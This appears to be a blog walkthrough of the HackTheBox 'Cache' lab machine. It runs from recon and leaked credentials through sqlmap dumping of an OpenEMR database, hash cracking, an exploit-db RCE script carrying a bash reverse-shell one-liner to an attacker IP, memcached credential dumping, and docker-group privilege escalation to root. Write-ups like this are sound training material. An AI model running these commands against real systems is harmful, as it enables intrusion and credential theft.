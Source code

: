 ```yaml
---
title: hackthebox cache walkthrough
author: fasto
date: 2020-10-21 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
 Hey ,<br>cashe machine was released today  <br> it's my favorite machine created by ASHacker I am going to share a writeup for it ,the machine available at HackTheBox for penetration testing<br>
in user part we do some basic enumeration gives us a credential and also we got domain which vulnerable with sqlinjection and rce we dump credential with sqlmap and than use it for rce to get shell as www and then we find creds in memcached to got user,for privilege escalation we descoverd that the user is in the group docker we got root very easily
 
  <br> 

<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
---
We start with scan ports:

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```                                                                                                                                                      
From the result above we found two working ports , port 80 and port 22                                                                                   
lets start with port 80                                                                                                                                  
![Desktop View](/img/00.png)

we find login page i've tried sql injection in login form but it's failed because the website isn't affected
![Desktop View](/img/0.png)


<h4>Enumeration</h4>


so i run dirb

![Desktop View](/img/1.png)
i found two directory
javascript 
and 
jquery
when i opened jquery i found one file there functionality.js i got inside the file 
<br>password : H@v3_fun
<br>username : ash
we keep it in text and keep continue

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
looking for domain with ffuf

![Desktop View](/img/3.png)
We found domain named hms like you see in the screen
add the domain in /etc/hosts
```
10.10.10.188    hms.htb
```
we open the domain in the browser 
![Desktop View](/img/4.png)
then i discovered that the application running in this domain is vulnerable with sql injection
<br>
by some googling i found youtube video explaining the vulnerability 


<br>
```https://www.youtube.com/watch?v=DJSQ8Pk_7hc ```
<br>

We intercept with burp

![Desktop View](/img/5.png)

We save the request in file
![Desktop View](/img/6.png)

then we inject with sqlmap :
```sqlmap -r om.req  --dbs```
<br>om.req ---> the request we saved
<br>
\--dbs  ---> Enumerate databases

![Desktop View](/img/7.png)
<br>we found the name of database 
![Desktop View](/img/8.png)
<br>we need to enmerate the tables<br>
``` sqlmap -r login.req -D openemr --table ```
<br>-D      ---> name of database we want to enumrate 
<br>--table ---> Enumerate  tables
<br>we got all tables in openemr now we need to dump user and password from  users_secure<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
like you see we found a hashed password <br>
we need to crack the hash with john <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
and we got  the password xxxxxx Now we can login into openemr 
<br>and by some googling we find openemr it's also affected by rce (allow us to upload shell) 
<br>we download the script from exploit-db and run it
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```

<br> we get our reverse shell
<h4>Privilege Escalation</h4>
i run netstat command <br> ```netstat -plant```
<br>


![Desktop View](/img/14.png)


<br>and i notice the port 11211 is open in local this port of memcached service

<br>lets dump data from it 
<br>connect with telnet
```telnet localhost 11211```
<br>lets start first with STAT command to print all the general statistics of the server
```STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```
then 
stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
get user
```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
get passwd
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>we got user and password we connect with ssh
and we we figured out the user luffy is in doker group



we go to gtfobins 

```https://gtfobins.github.io/gtfobins/docker/```


<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
and we got root

